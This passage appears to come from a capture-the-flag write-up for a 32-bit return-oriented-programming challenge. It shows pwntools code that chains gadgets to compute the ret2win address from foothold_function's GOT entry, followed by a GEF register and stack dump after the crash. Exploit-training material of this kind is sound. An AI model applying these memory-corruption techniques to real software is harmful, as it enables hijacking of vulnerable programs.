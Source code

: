 ```python3
Gadget(0x80484a9, ['pop ebx', 'ret'], ['ebx'], 0x8)
>>> 
```


Changing rop chain now:

```python3
fhold_got = p32(elf.symbols['got.foothold_function'])
eax = fhold_got
eax_gadget = p32(rop.eax.address)
ebx_gadget = p32(rop.ebx.address)
add_gadget = p32(elf.symbols['usefulGadgets']+7)

rop_chain = [
        fhold_addr,          # first, call foothold_function, so that it's address in memory is linked and resolved in the got
        eax_gadget,             # 1. pop eax; ret
        eax,                    #       &foothold_function@got.plt
        ebx_gadget,             # 5. pop ebx; ret 
        p32(503),               #       503 is popped into ebx
        add_gadget,             # 6. add eax, ebx; ret
        b'shed'
        ]
```

Let's see if we get the right address in eax

```asm
gef➤  contin
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x0000000a in ?? ()

[ Legend: Modified register | Code | Heap | Stack | String ]
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$eax   : 0xf7f65974  →  <ret2win+0> push ebp
$ebx   : 0x1f7     
$ecx   : 0xffffffff
$edx   : 0xffffffff
$esp   : 0xf7d5ef30  →  0x00000000
$ebp   : 0x42424242 ("BBBB"?)
$esi   : 0xf7f4b000  →  0x001ead6c
$edi   : 0xf7f4b000  →  0x001ead6c
$eip   : 0xa       
$eflags: [zero carry PARITY ADJUST SIGN trap INTERRUPT direction overflow RESUME virtualx86 identification]
$cs: 0x0023 $ss: 0x002b $ds: 0x002b $es: 0x002b $fs: 0x0000 $gs: 0x0063 
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0xf7d5ef30│+0x0000: 0x00000000	 ← $esp
0xf7d5ef34│+0x0004: 0x00000000
0xf7d5ef38│+0x0008: 0x00000000
0xf7d5ef3c│+0x000c: 0x00000000
0xf7d5ef40│+0x0010: 0x00000000
0xf7d5ef44│+0x0014: 0x00000000
0xf7d5ef48│+0x0018: 0x00000000
0xf7d5ef4c│+0x001c: 0x00000000
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:32 ────
[!] Cannot disassemble from $PC
[!] Cannot access memory at address 0xa
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
```